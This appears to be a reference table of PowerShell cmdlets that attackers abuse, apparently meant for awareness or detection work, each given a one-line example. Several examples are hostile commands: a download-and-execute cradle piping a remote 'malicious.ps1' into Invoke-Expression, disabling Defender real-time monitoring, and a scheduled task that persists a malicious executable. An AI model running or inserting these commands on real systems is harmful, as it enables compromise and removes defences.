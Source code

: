 # Dangerous Inbuilt PowerShell Cmdlets

| **Cmdlet**                 | **Description**                                                      | **Example**                                                                 |
|---------------------------|----------------------------------------------------------------------|----------------------------------------------------------------------------|
| **`Invoke-Expression` (iex)** | Executes a string as a PowerShell command.                           | `iex $command`                                                              |
| **`Start-Process`**      | Launches a new process.                                            | `Start-Process "C:\path\to\malicious.exe"`                               |
| **`Invoke-WebRequest`**  | Sends HTTP and HTTPS requests.                                      | `Invoke-WebRequest -Uri "http://example.com/malicious.exe" -OutFile "C:\path\to\malicious.exe"` |
| **`Invoke-RestMethod`**  | Sends HTTP and HTTPS requests and processes the response.          | `Invoke-RestMethod -Uri "http://example.com/malicious.ps1" | Invoke-Expression` |
| **`New-Object`**         | Creates an instance of a .NET Framework or COM object.              | `$webClient = New-Object System.Net.WebClient`                            |
| **`Get-Content`**        | Retrieves the content of a file or other item.                      | `Get-Content "C:\path\to\malicious.ps1" | Invoke-Expression`              |
| **`Set-ExecutionPolicy`**| Changes the user preference for the PowerShell script execution policy. | `Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser`    |
| **`Add-Type`**           | Adds a .NET Framework type to a PowerShell session.                  | `Add-Type -TypeDefinition $typeDefinition`                               |
| **`Get-Process`**        | Retrieves a list of processes running on the local machine.        | `Get-Process \| Where-Object { $_.Name -eq "targetProcess" }`                 |
| **`Stop-Process`**      | Stops a running process.                                            | `Stop-Process -Name "maliciousProcess"`                                   |
| **`Remove-Item`**        | Deletes files or folders.                                           | `Remove-Item -Path "C:\path\to\file.txt" -Recurse -Force`                 |
| **`Set-MpPreference`**   | Configures Windows Defender preferences.                           | `Set-MpPreference -DisableRealtimeMonitoring $true`                       |
| **`Get-EventLog`**      | Retrieves entries from event logs.                                  | `Get-EventLog -LogName Security -Newest 10`                              |
| **`Export-Csv`**         | Exports data to a CSV file.                                         | `Get-Process \| Export-Csv -Path "C:\path\to\processes.csv"`                  |
| **`Get-EventSubscriber`**| Retrieves event subscribers.                                        | `Get-EventSubscriber`                                                     |
| **`New-PSDrive`**        | Creates a new PowerShell drive.                                    | `New-PSDrive -Name "RemoteDrive" -PSProvider FileSystem -Root "\\remote\share"` |
| **`Get-CimInstance`**    | Retrieves CIM (Common Information Model) instances.                 | `Get-CimInstance -ClassName Win32_OperatingSystem`                        |
| **`Get-ADUser`**        | Retrieves Active Directory user accounts.                           | `Get-ADUser -Filter * \| Select-Object -Property Name,SamAccountName`      |
| **`Get-WmiObject`**    | Retrieves management information from WMI (Windows Management Instrumentation). | `Get-WmiObject -Class Win32_ComputerSystem`                              |
| **`New-ScheduledTask`** | Creates a new scheduled task.                                      | `New-ScheduledTask -Action (New-ScheduledTaskAction -Execute "C:\path\to\malicious.exe") -Trigger (New-ScheduledTaskTrigger -Daily -At 3am)` |

